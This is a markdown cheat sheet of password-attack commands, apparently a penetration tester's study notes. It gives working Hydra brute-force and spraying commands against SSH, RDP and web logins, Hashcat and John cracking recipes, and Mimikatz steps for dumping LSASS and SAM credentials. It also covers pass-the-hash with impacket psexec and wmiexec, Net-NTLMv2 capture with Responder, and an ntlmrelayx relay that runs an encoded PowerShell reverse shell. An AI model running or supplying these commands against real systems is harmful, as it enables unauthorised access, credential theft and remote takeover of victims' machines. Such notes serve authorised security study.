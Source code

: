# Password attacks

Graphics card cracking: 
- https://openbenchmarking.org/test/pts/hashcat-1.0.0
- https://www.tomshardware.com/news/eight-rtx-4090s-can-break-passwords-in-under-an-hour

Check:
- https://scatteredsecrets.com/

## Hydra

On GitHub: https://github.com/vanhauser-thc/thc-hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
hydra -l user -P wordlist.txt rdp://IpVictim # default port is 3389
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```
Userlist on Kali: `/usr/share/wordlists/dirb/others/names.txt`

### Http

Check the source code to get the user and password field names:
```
hydra -P wordlist.txt $IpVictim http-post-form "/baseurl_like_index.html_or_php:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

Benchmark: `-b`
Example of rule: https://hashcat.net/wiki/doku.php?id=rule_based_attack
```
: ---> do nothing
$1 ---> add '1' and the end
c $1 $2 $3 ---> capitalize, add '1', then '2', then '3' at the end
$ ---> append a whitespace
^ ---> prepend a whitespace
$1 c $! ---> append '1', then capitalize, then add '!' at the end
$2 c $! ---> append '2', then capitalize, then add '!' at the end
$1 $2 $3 c $! ---> append '1', then '2', then '3', then capitalize, then append '!'
```
Usage:
```
hashcat -r rulefile.rule wordlist.txt --stdout
hashcat -m 0 tocrackfile.txt wordlist.txt -r rulefile.rule --force # MD5 hash (-m 0), ignore GPU warnings (--force)

hastcat wordlist.txt -r rulelist.txt --stdout
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
hashcat -m passman.mode passman.hash rockyou.txt -r rockyou-30000.rule --force
```
Common rules: `/usr/share/hashcat/rules/` (for rockyou: `rockyou-30000.rule`)

## Ssh passphrase

```
ssh2john id_rsa > ssh.hash
hashcat -h | grep -i "ssh"
hashcat -m ssh.hashcat.mode ssh.hash ssh.passwords -r ssh.rule --force
cp ssh.rule /etc/john/otherssh.rule
vim /etc/john/john.config
john --wordlist=ssh.passwords --rules=sshJohnRules ssh.hash
```

---

## Mimikatz

Password modules:
- extraction from [LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service): `sekurlsa::logonpasswords`
- dump: `lsadump::sam` (lighter)

Access right needed:
- extraction: __SeDebugPrivilege__
- privilege escalation ("impersonation"): __SeImpersonatePrivilege__ (e.g. local administrators)

Commands:
```
mimikatz # privilege::debug # with SeDebugPrivilege access rights
mimikatz # token::elevate # with SeImpersonatePrivilege access rights
mimikatz # lsadump::sam # hash dump
```

## NTLM hash cracking

On Windows:
```
PS> Get-LocalUser
PS> c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```
Take the hashes back to Kali:
```
hashcat -h | grep -i ntlm # get the NTLM code: 1000
hashcat -m ntlm_mode_code user_hash.txt /u/s/w/rockyou.txt -r /u/s/h/r/best64.rule --force
```

## Pass NTLM

```
smbclient \\\\IpVictim\\someshare -U Administrator --pw-nt-hash adminhash # smb> get file.txt
impacket-psexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # nt authority\system
impacket-wmiexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # host\administrator

```

## Net-NTLMv2

Kali
```
sudo responder -I ethX
```
Windows
```
smb \\IpAtt\fakeshare
```
then `hashcat`

## Relay Net-NTLMv2

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t IpVictim -c "powershell -enc base64reverseshell"
```
